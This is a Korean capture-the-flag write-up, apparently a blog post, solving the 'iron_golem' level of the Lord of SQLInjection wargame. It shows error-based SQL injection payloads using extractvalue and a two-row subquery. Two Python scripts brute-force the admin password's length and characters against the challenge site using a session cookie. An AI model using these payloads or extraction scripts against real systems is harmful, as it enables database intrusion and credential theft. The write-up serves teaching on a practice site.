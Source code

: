```yaml
---
layout: single
title: "[Lord of SQLInjection] iron_golem write-up"
date: 2025-05-01 14:30 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## Lord of SQLInjection (iron_golem)

### 풀이

이번 문제에서 pw 파라미터에 대해 필터링 되는 문자는 `prob _ . () sleep benchmark` 와 같다. 지난 문제들과 다른 점은 exit 함수로 sql 에러 페이지를 보여주고, result[id] 결과 값을 echo로 출력해주지 않는다.

![image-20250428233154058](/images/2025-04-28-los-iron-golem/image-20250428233154058.png)

<br>

mysql 에서는 서칭을 해보니 SQL 에러가 나왔을 때, `extractvalue`  함수를 사용해서 두 번째 인자에 XPATH 표현식이 아니면 이를 쿼리를 실행해서 출력해주는 것 같다. 두 번째 인수 부분에 항상 유효하지 않은 표현식이 되도록 concat 함수와 0x3a를 이용할 수 있다. 아래와 같이 페이로드를 삽입하면 extractvalue의 두 번째 인자인 'hi'가 XPATH syntax error로 출력됐다.

```
' or extractvalue('1', concat(0x3a, 'hi'))-- -
%27%20or%20extractvalue(%271%27,%20concat(0x3a,%27hi%27))--%20-
```

![image-20250428235557577](/images/2025-04-28-los-iron-golem/image-20250428235557577.png)

<br>

hi 말고 다른 값도 출력되는지 테스트 해보려고 select (5*5)를 넣어서 요청해보니 25가 잘 출력되는 것을 확인할 수 있다. 근데 이 방법을 사용하면 테이블 이름을 사용해서 select를 하면 위에 있는 키워드 필터링 문자 때문에 이 방법으로 시도하는 건 아닌 것 같다.. 

```
' or extractvalue('1', concat(0x3a, (select (5*5))))-- -
```

![image-20250501143140271](/images/2025-04-28-los-iron-golem/image-20250501143140271.png)

<br>
다른 방법으로 오류를 낼 수 있는 방법으로 찾아야 하는데, 숫자 범위를 초과해서 넣거나, if 조건문을 이용해 (select 1 union select 2)으로 한 개의 데이터만 나와야 하는데 두 개의 데이터를 집어넣는 방식으로 오류를 낼 수 있다. 아래의 페이로드를 사용해서 pw의 길이를 구할 수 있는데, 거짓일 때는 응답값에 1 row 문자열을 찾아서 나오지 않을 때까지 파이썬 코드로 작성하면 된다.

```
' or id='admin' and if(length(pw)=1,1,(select 1 union select 2))-- -
```

![image-20250501151547197](/images/2025-04-28-los-iron-golem/image-20250501151547197.png)

<br>

아래처럼 코드를 짜서 보내보면 패스워드 길이는 32인 것을 알 수 있다.

```python
import requests

url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php"
cookie = {"PHPSESSID": "r5plqc9119sdnc1s4nqo9e6rrl"}
password = ""

for i in range(0, 100):
    param = {
        "pw": f"' or id='admin' and if(length(pw)={i},1,(select 1 union select 2))-- -"
    }
    r = requests.get(url=url, cookies=cookie, params=param)
    if "1 row" in r.text:
        print("pass")
        continue
    else:
        print(f"found! 패스워드 길이: {i}")
        break

```

![image-20250501151954838](/images/2025-04-28-los-iron-golem/image-20250501151954838.png)

<br>

아래와 같이 쿠키 값을 넣어줘야 los 로그인 페이지로 리다이렉트가 되지 않고, 정상 응답 값에 strong 태그가 포함되어 있으므로 이를 기반으로 코드를 짜주면 admin 패스워드를 뽑아낼 수 있다. 

```python
import requests
import string

password_charset = string.ascii_letters + string.punctuation + string.digits

url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php"
cookie = {"PHPSESSID": "r5plqc9119sdnc1s4nqo9e6rrl"}
password = ""

for i in range(1, 33):
    for j in range(0, len(password_charset)):
        param = {
            "pw": f"' or id='admin' and if(substr(pw,{i},1)='{password_charset[j]}',1,(select 1 union select 2))-- -"
        }
        r = requests.get(url=url, cookies=cookie, params=param)
        if "<strong>" in r.text:
            found = True
            password += password_charset[j]
            print(f"패스워드 {i}번째 문자는 {password_charset[j]}입니다.")
            break
print(password)
```

<br>

![image-20250501161127327](/images/2025-04-28-los-iron-golem/image-20250501161127327.png)